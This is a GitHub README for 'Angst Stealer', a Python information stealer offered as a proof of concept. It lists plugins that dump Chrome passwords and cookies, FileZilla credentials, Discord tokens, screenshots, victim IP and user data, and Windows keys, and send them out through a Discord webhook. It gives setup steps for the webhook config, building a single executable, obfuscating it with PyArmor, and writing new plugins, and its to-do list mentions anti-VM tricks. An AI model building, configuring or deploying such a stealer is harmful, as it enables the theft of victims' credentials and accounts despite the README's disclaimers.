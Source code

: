 <h2 align="center">Angst Stealer</h2> 
<p align="center">
  <img width="1200" height="300" src="https://i.imgur.com/SwlJRar.png">
</p>

AngstStealer is a POC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purpose's, please do not use misuse this tool. Angst Stealer currently has a total of 6 plugins:

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Cookies | Dumps chrome cookies. |
| Discord | Dumps discord token for Chrome and Discord. |
| Send | Zips and sends all the files through the Discord webhook. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/backslash/AngstStealer` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```
CONFIG = {
    "webhook" : "",
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
}

```

webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
windows -> Give information about your victim & includes the windows key</br>
discord -> Steal discord tokens</br>
screenshot -> takes a screenshot</br>
</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>

### To Do List
- [x] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [x] Implement some anti-vm tricks.
- [ ] Add more plugins

### Adding Plugins
Adding custom plugins is incredibly easy, here is a short example of how you make and integrate your own custom plugin for Angst:

1. First off you will want to create your plugin preferably in your plugins folder. The plugin can have as many function as needed, the example I provided below has one function called retrieve_data which will retrieve our sensitive data. Our dump function is needed for proper plugin integration because this is how all the functions know to dump there data.
```python
import requests

class ExamplePlugin(object):
	def __init__(self):
		self.sensitive_data = ""

	def retrieve_data(self):
		view_website = requests.get("https://api.ipify.org")
		self.sensitve_data = view_website.text

	def dump(self):
		self.retrieve_data()
		return self.sensitive_data
	
```
2. Next we want to add our example function to our main file which is `angst.py` in our `angst.py` do 
```from plugins.exampleplugin import ExamplePlugin```
change your import name on whatever you named your file and whatever you called the plugin class. 
3. Lastly we want to add it to our `config["software"]` and the `self.plugins` as show below.
```
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
```
```
self.plugins = {
            "chrome": Chrome(),
            "chromecookies": Cookies(),
            "filezilla": Filezilla(),
            "discord": Discord(),
            "screenshot": Screenshot(),
            "windows": Windows()
        }
```
Make sure you use the exact same name when you put it under the config and self.plugins since it is case sensitive.


### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
